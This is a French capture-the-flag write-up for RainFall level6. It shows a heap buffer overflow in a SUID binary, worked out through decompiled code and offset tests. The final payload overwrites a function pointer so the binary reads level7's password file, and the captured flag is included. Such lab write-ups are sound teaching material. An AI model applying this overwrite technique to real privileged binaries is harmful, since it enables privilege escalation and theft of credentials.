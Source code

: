 # RainFall CTF - Level6

## Reconnaissance

### Fichier trouvé
```bash
level6@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

**Observations :**
- Exécutable avec SUID bit activé (`s` dans les permissions)
- Appartient à `level7` (propriétaire) et `users` (groupe)
- Peut être exécuté avec les privilèges de `level7`

## Analyse statique avec Ghidra

### Fonction main (vulnérable)
```c
void main(undefined4 param_1, int param_2) {
  char *__dest;
  undefined4 *puVar1;
  
  __dest = (char *)malloc(0x40);           // Allocation de 64 octets sur la heap
  puVar1 = (undefined4 *)malloc(4);        // Allocation de 4 octets (pointeur de fonction)
  *puVar1 = m;                             // Stocke l'adresse de la fonction m()
  strcpy(__dest, *(char **)(param_2 + 4)); // VULNÉRABLE - copie argv[1] sans vérification
  (*(code *)*puVar1)();                    // Appelle la fonction pointée par puVar1
  return;
}
```

### Fonction m (par défaut)
```c
void m(void *param_1, int param_2, char *param_3, int param_4, int param_5) {
  puts("Nope");
  return;
}
```

### Fonction cachée n
```c
void n(void) {
  system("/bin/cat /home/user/level7/.pass");
  return;
}
```

**Code assembleur :**
```asm
n:
08048454 55    PUSH EBP
```

L'adresse de la fonction `n()` est **`0x08048454`**.

## Analyse des vulnérabilités

### Heap Buffer Overflow
- **Fonction dangereuse** : `strcpy(__dest, argv[1])`
- **Problème** : Aucune vérification de la taille de `argv[1]`
- **Buffer alloué** : 64 octets (`malloc(0x40)`)
- **Impact** : Débordement possible sur la heap

### Architecture de la heap
```
[Buffer 64 octets] [Métadonnées heap] [Pointeur de fonction 4 octets]
```

Le pointeur de fonction stocké dans `puVar1` se trouve après le buffer alloué.

## Test de débordement

### Conversion hexadécimal → décimal
- **Taille du buffer** : `0x40` = `64` octets en décimal

### Tests de débordement progressifs
```bash
# Test avec la taille exacte du buffer
./level6 $(python -c "print('A' * 64)")
Nope

# Test avec 4 octets supplémentaires
./level6 $(python -c "print('A' * 68)")
Nope

# Test avec 8 octets supplémentaires
./level6 $(python -c "print('A' * 72)")
Segmentation fault (core dumped)

# Test avec 7 octets supplémentaires
./level6 $(python -c "print('A' * 71)")
Nope
```

### Conclusion des tests
- **72 caractères** provoquent un segfault
- Le pointeur de fonction est écrasé à partir du **72ème octet**
- Distance entre le buffer et le pointeur : **68 octets** (64 + 4 métadonnées heap)

## Test de validation
```bash
# Test avec une chaîne très longue pour confirmer la vulnérabilité
./level6 $(python -c "print('A' * 100)")
Segmentation fault (core dumped)
```

## Construction de l'exploit

### Structure du payload
- **Padding** : 68 octets pour atteindre le pointeur de fonction
- **Nouvelle adresse** : 4 octets contenant l'adresse de `n()`

### Calcul précis
```
Buffer: 64 octets
Métadonnées heap: 4 octets  
Pointeur de fonction: 4 octets
Total pour l'overflow: 68 + 4 = 72 octets
```

### Payload final
```bash
./level6 $(python -c "print('A' * 68 + '\x54\x84\x04\x08')")
```

**Structure :**
- `'A' * 68` : Padding pour atteindre le pointeur de fonction
- `\x54\x84\x04\x08` : Adresse de `n()` en little-endian

## Mécanisme d'exécution

1. `malloc(0x40)` alloue 64 octets pour `__dest`
2. `malloc(4)` alloue 4 octets pour `puVar1` (pointeur de fonction)
3. `*puVar1 = m` stocke l'adresse de `m()` dans le pointeur
4. `strcpy(__dest, argv[1])` copie notre payload :
   - Les 68 premiers octets remplissent le buffer et les métadonnées
   - Les 4 octets suivants écrasent le pointeur de fonction avec `0x08048454`
5. `(*(code *)*puVar1)()` appelle la fonction à l'adresse stockée → `n()` au lieu de `m()`
6. `n()` exécute `system("/bin/cat /home/user/level7/.pass")`

## Exploitation réussie

```bash
level6@RainFall:~$ ./level6 $(python -c "print('A' * 68 + '\x54\x84\x04\x08')")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Résultats

### Flag obtenu
```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

### Accès niveau suivant
- **Utilisateur** : `level7`
- **Prochain challenge** : `/home/user/level7/`

## Notes techniques

- **Type de vulnérabilité** : Heap Buffer Overflow
- **Technique d'exploitation** : Function Pointer Overwrite
- **Architecture** : x86 (32-bit)
- **Concepts introduits** :
  - **Heap exploitation** : Premier niveau utilisant la heap au lieu de la stack
  - **Function pointer overwrite** : Redirection via pointeurs de fonctions
  - **Allocations dynamiques** : Exploitation de `malloc()`
  - **Métadonnées heap** : Compréhension de la structure heap
- **Méthode de découverte** : Tests progressifs pour déterminer l'offset exact
- **Offset calculé** : 68 octets (buffer + métadonnées heap)
- **Difficulité** : Intermédiaire - Introduction à l'exploitation heap

## Évolution par rapport aux niveaux précédents

Ce niveau marque une transition importante :
- **Passage stack → heap** : Première exploitation heap du CTF
- **Pointeurs de fonction** : Nouvelle technique de redirection
- **Allocations dynamiques** : Gestion de `malloc()` vs variables locales
- **Tests empiriques** : Découverte d'offset par expérimentation

Cette progression introduit les concepts fondamentaux de l'exploitation heap, préparant aux challenges plus avancés de corruption de métadonnées heap.
